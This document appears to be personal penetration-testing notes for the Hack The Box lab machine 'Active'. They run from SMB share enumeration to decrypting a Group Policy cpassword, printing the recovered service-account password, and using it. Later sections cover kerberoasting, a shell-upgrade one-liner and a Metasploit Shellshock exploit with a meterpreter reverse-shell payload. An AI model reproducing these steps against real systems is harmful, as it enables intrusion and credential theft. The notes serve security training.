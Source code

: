 # active, flow

## Summary

+ the full nmap scan took 1666.20 seconds (27 minutes), in the exam, find web server first.
+ run detailed (re)scan on initial enum results with specific target in mind.

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 10.129.96.185
  # rename-tab
sudo vim /etc/hosts
```

> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos -> ldap open

+ an the kerberos server usually also has an open ldap and folder share service.

> 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

## dns-lookup

```sh
nslookup
> server 10.129.96.185
> 127.0.0.1
  # reverse dns
  # 1.0.0.127.in-addr.arpa  name = localhost.
> 10.129.96.185
  # no return
```

```sh
dnsrecon -d 10.129.96.185 -r 10.129.96.0/24
  # 5 seconds, no result
dnsrecon -d 10.129.96.185 -r 10.0.0.0/8
  # background, no result
```

## detailed enum with nmap

```sh
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -e 'default\|version' | grep 'smb'
  # locate -r use regex
  # the default scripts is  only a few
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -v -e 'default\|version' | grep 'smb' | grep -e 'safe'
nmap --script-help '(smb* and safe) and not (default or version)'
nmap --script '(smb* and safe) and not (default or version)' -p 445 active.htb
  # 30s
nmap --script 'smb-enum-services' -p 445 active.htb -d
  # -d to debug -> the script does not support SMBv2
```

## try with smbclient

```sh
smbclient -L active.htb
  # -L list <host>
  # only folder 'Replication' accessible, READONLY.
```

```sh
smbmap -H active.htb
smbmap -R Replication -H active.htb
  # -R <dirName> Recursively list dirs and files.
smbmap -R Replication -H active.htb -A '.*' --depth 40
  # -A find files that match(regex), and auto download.
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf

## alternatively, use
## smb: \> recurse ON
## smb: \> prompt OFF
## smb: \> mget *

  # in which, the Groups.xml contains account info
  # cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... userName="active.htb\SVC_TGS"
```

+ ref: [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py)

```sh
gpp-decrypt <cpassword>
  # from MS doc, the AES key of cpassword is key 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
  # which is actually AES-256-CBC with IV '\x00' *16 
  # GPPstillStandingStrong2k18
```

## try the account

```sh
#! smbmap -H active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' -x 'net user'
  # [!] Authentication error on active.htb
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R --depth 40
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R Users --depth 40 -A 'user.txt'
```

## AD enum, impacket

+ ref: [impacket, github](https://github.com/SecureAuthCorp/impacket)

```sh
locate impacket
```

## AD flow revisit

+ the are only few flows basically. Lateral movement (user account -> Service Account || Local Admin) -> Domain Admin
  1. kerberoasting, SPN scan (request a TGS), crack weak TGS password (which version? which account? which hash?) for service account NTLM. Two points:
  2. First, the check of whether user could access(authority) a Service, is performed by the Service entity, not the DC. Hence any user could request any TGS.
  3. Second, by design, service entity trust TGS blindy(in theory only DC and the service entity knows the NTLM of the service account).

+ TODO psexec
+ TODO win10 wget

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
